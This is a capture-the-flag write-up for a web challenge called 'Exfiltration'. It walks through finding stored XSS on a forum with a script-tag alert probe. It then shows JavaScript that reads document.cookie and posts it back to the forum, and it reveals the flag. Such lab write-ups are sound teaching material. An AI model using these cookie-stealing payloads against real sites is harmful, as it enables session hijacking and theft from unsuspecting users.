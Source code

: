 # Writeup Exfiltration

## Challenge description
**Author: roypur**

**Difficulty: challenging**

**Category: web**

---


We have found a forum used by members of the Mother cult. The members are sitting behind an advanced firewall without access to the internet.
We need their super secret information.

[exfiltration.tghack.no](https://exfiltration.tghack.no)

## Writeup

The challenge text indicates that we need to get some information from someone who is using a forum.
When we need to get something from a different user on a website we often need to use XSS.
This time is no different.

To see if the website is vulnerable to XSS we can write the following code into the textfield.

```javascript
<script>
alert("vulnerable");
</script>
```

When we send the message the page reloads and we get an alert prompt in our window.
This means it's vulnerable.

The browser we need to run XSS against doesn't have access to the internet, which means
that we need to use the forum to transfer the secret information back to us.
If we look at the script.js file on the website we can see how the page sends the message to the server.

```javascript
document.addEventListener("DOMContentLoaded", () => {
    document.getElementById("btn").addEventListener("click", () => {
        let xhr = new XMLHttpRequest();
        xhr.open("post", window.location.href, true);
        xhr.onreadystatechange = () => {
            if (xhr.readyState == 4 && xhr.status == 200) {
                document.location.reload(true);
            }
        };
        xhr.send(document.getElementById("text").value);
    });
});
```

We can reuse parts of this code to get the data back to us.
To verify this we can try to run the following code.

```javascript
let xhr = new XMLHttpRequest();
xhr.open("post", window.location.href, true);
xhr.send("XSS works");
```

"XSS works" is posted to the forum and we know it works.

It is fairly common to have secrets in cookies.
We try to check if the user has any cookies with the following code.

```javascript
let xhr = new XMLHttpRequest();
xhr.open("post", window.location.href, true);
xhr.send(document.cookie);
```

And we get the flag as a post on the forum.

```
TG20{exfiltration_is_best_filtration}
```

